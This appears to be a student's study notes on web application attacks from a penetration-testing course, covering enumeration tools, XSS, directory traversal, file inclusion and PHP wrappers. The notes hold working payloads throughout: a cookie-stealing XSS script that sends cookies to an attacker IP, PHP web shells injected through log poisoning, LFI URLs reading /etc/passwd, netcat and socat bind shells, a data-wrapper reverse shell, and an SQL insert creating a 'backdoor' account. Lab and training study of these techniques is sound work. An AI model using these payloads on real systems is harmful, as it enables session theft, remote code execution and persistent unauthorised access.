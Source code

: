 8 Web Application Attacks

# Web Application Enumeration

Identify the technology stack:
- Programming language and frameworks
- Web server software
- Database software
- Server operating system

Inspect page content with the Firefox Debugger tool (Ctrl-Shift K).
Find versions of jquery etc.
Use network tab to look at headers and find server details.
Check robots.txt and sitemap.xml.
Check for default administration consoles such as /manager/html for Tomcat or /phpmyadmin for MySQL.

## DIRB
Perform a non-recursive search with a 10 millisecond delay to each request:
`dirb http://www.megacorpone.com -r -z 10`

## Burp

* Disable proxy interception on startup under User Options > Misc > Proxy Interception.
* Add FoxyProxy Basic (or Standard) to Firefox.
* Get a new unique Burp CA for HTTPS:
  * Proxy > Options > Proxy Listeners > Regenerate CA Certificate.
  * http://burp.
  * Save cacert.der.
  * Firefox > Settings > Privacy & Security > View Certificates > Import.
  * Enjoy HTTPS goodness without errors.

## Nikto

Nikto is a highly configurable Open Source web server scanner that tests for thousands of dangerous files and programs, vulnerable server versions and various server configuration issues.

The -maxtime option will halt the scan after the specified time limit. This does not optimize the scan in any way. Nikto will simply stop scanning. Tune the scan with the -T option. We can use this feature to control which types of tests we want to run. There are times when we do not want to run all the tests built in to Nikto, such as verifying if a certain class of vulnerabilities is present. Nikto can be slow on large websites and is not stealthy as it sends so many requests, as well as identifying itself in the User-Agent header.

`nikto -host=http://www.megacorpone.com -maxtime=30s`

## Web Admin Exploitation Example

https://en.wikipedia.org/wiki/Cross-site_request_forgery#Synchronizer_token_pattern

Example of Burp and phpMyAdmin. Even though you can't use Burp in the exam...

1. Submit a login request for for intruder to analyse.
2. Right click on the POST request in Burp and send to intruder.
3. On the positions tab clear all set positions and add the cookie, set_session, token and password.
4. Select pitchfork attack type so we can use different values for each position. https://portswigger.net/burp/documentation/desktop/tools/intruder/attack-types
  * The attack iterates through all payload sets simultaneously, and places one payload into each defined position. In other words, the first request will place the first payload from payload set 1 into position 1 and the first payload from payload set 2 into position 2; the second request will place the second payload from payload set 1 into position 1 and the second payload from payload set 2 into position 2, etc. 
5. Under options navigate to Grep -Extract which will save results of a request and make them available for the next one. Highlight the area of the token or set_session and it will extract the field.
6. Navigate to payloads. Add the recursive greps and the password.
7. Start attack.
8. Identify the 302 different response. Login with same password.
9. Run SQL query:
   * `select * from webappdb.users;`
   * `insert into webappdb.users(password, username) VALUES ("backdoor","backdoor");`

# Cross-Site Scripting (XSS)

Look for entry points (search fields, comment fields, logins etc) and enter special characters to see if they are encoded, for example `< > ' " { } ;`. If they are not encoded or removed, the site may be vulnerable to XSS to introduce code.

If the entered text is printed back to the page, check with inspector if it is encoded in any way.

Content can be injected for client-side attacks and redirect the browser. A stealth method is using an iframe to introduce the payload. Note the 0 heigh and width:
`<iframe src=http://192.168.0.163/report height=”0” width=”0”></iframe>`. Submit and on target:  
`sudo nc -nvlp 80`

Note we can see the User-Agent header and other information on the victim's browser to help conduct further attacks. XSS can be used to steal cookies and session information from applications with insecure session management. Two important flags are:
* Secure - the browser only sends the cookie over encrypted connections such as HTTPS, preventing capture of the cookie.
* HttpOnly 0 denies JavaScript access to the cookie. If set, we cannot use an XSS payload to steal the cookie.
* Other issues include browsers prevent cookies set by one domain from being sent to another. This can be relaxed for subdomains in the set-cookie directive via the domain and path flags. A workaround if JavaScript can bhe used is to use the value as part of a link and send the link, which could be used to deconstruct the cookie.

Cookie stealing XSS payload:  
`<script>new Image().src="http://192.168.119.231/cool.jpg?output="+document.cookie;</script>`  
`sudo nc -nvlp 80`

When someone visits the page we can obtain their cookie. Use Cookie-Editor by Moutsachauve on FF to impersonate. Practice with Kali Beef.

# Directory Traversal Vulnerabilities

Look in the URL query strings and bodies for evidence the values appear as file references. For example: `/menu,php?file=current_menu.php`.  
Try swapping out the file for something else: `menu.php?file=c:\windows\system32\drivers\etc\hosts`.  
An important distrinction is whether files can be read both in and outside the web root directory.

# File Inclusion Vulnerabilities

Similar to the directory traversal, we are looking for parameters that can be manipulated. In file inclusion vulnerabilities, we are looking to execute the contents of the file in the application. This can also include trying a remote URL as well as local files. 

The server needs to include or execute the file we are trying to include, not just display it's contents. One way to inject code onto the server is through log file poisoning. If application servers are logging all URLs requested, we can submit a request including PHP code. Once it is logged, we can use the log file in the LFI payload.

Connect to the target server: `nc -nv <ip> 80`. Once connected send:
`<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>`  
This will cause the PHP application to execute:
`<?php echo shell_exec($_GET[‘cmd’]);?> `

With this payload now in the log file, we can attempt local file inclusion (LFI) execution:  
`http://192.168.231.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`

Other examples:
http://192.168.231.52/menu.php?file=/var/log/apache2/access.log&cmd=cat /etc/passwd`

/cmd.php&cmd=nc -nvlp 60000 -e /bin/bash
socat -d TCP4-LISTEN:60000 EXEC:/bin/bash

# Remote File Inclusion

Lesson common than LFI but easier to exploit. PHP apps need to be configured with `allow_url_include` set to on. This was on by default previously, but is now off.  
`http://192.168.231.52/menu.php?file=http://192.168.231.53/bad.txt`  
You can test if the server will reach out with netcat.

Other useful tricks:
* Older versions of PHP allowed the use of a null byte to terminate any string and bypass file extensions (%00).
* https://www.php.net/manual/en/security.filesystem.nullbytes.php
* End RFI payloads wqith a question mark to make anything added to the URL server-side as part of the query string.
* Use RFI with some of the webshells in /usr/share/webshells.

Simple payload:  
`<?php echo shell_exec($_GET['cmd']); ?>`

In exercises serving up files with Apache did not always work, so test other web servers:  
Python 2:  
`python -m SimpleHTTPServer 7331`  
Python 3:  
`python3 -m http.server 80`  
PHP:  
`php -S 0.0.0.0:8000`  
Ruby:  
`ruby -run -e httpd . -p 9000`
busybox:
`busybox httpd -f -p 10000`

# PHP Wrappers

Protocol wrappers allow additional flexibility when attempting to inject PHP code via LFI vulnerabilities. Two useful wrappers are the data wrapper for inline data and base64 encoded data which allows for an alternative payload when there is no local file to poison.

data : type of data : comma to mark start of contents.  
`http://192.168.231.10/menu.php?file=data:text/plain,hello world`  
`http://192.168.231.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`  
`192.168.231.10/menu.php?file=data:text/plain,<?php echo shell_exec("nc 192.168.119.231 80 -e cmd.exe") ?>`  

# SQL Injection
